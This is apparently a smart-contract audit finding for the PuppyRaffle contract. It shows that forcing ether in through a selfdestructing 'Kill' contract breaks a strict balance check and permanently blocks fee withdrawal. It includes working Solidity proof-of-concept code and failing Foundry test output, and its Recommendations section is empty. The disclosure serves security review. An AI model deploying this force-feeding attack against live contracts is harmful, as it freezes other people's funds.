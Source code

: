 ## Vulnerability Details

The withdraw function contains the following check:
```
require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```
Using `address(this).balance` in this way invites attackers to modify said balance in order to make this check fail. This can be easily done as follows:

Add this contract above `PuppyRaffleTest`:
```
contract Kill {
    constructor  (address target) payable {
        address payable _target = payable(target);
        selfdestruct(_target);
    }
}
```
Modify `setUp` as follows:
```
    function setUp() public {
        puppyRaffle = new PuppyRaffle(
            entranceFee,
            feeAddress,
            duration
        );
        address mAlice = makeAddr("mAlice");
        vm.deal(mAlice, 1 ether);
        vm.startPrank(mAlice);
        Kill kill = new Kill{value: 0.01 ether}(address(puppyRaffle));
        vm.stopPrank();
    }
```
Now run `testWithdrawFees()` - ` forge test --mt testWithdrawFees` to get:
```
Running 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[FAIL. Reason: PuppyRaffle: There are currently players active!] testWithdrawFees() (gas: 361718)
Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 3.40ms
```
Any small amount sent over by a self destructing contract will make `withdrawFees` function unusable, leaving no other way of taking the fees out of the contract.

## Impact

All fees that weren't withdrawn and all future fees are stuck in the contract.

## Tools Used

Manual review

## Recommendations
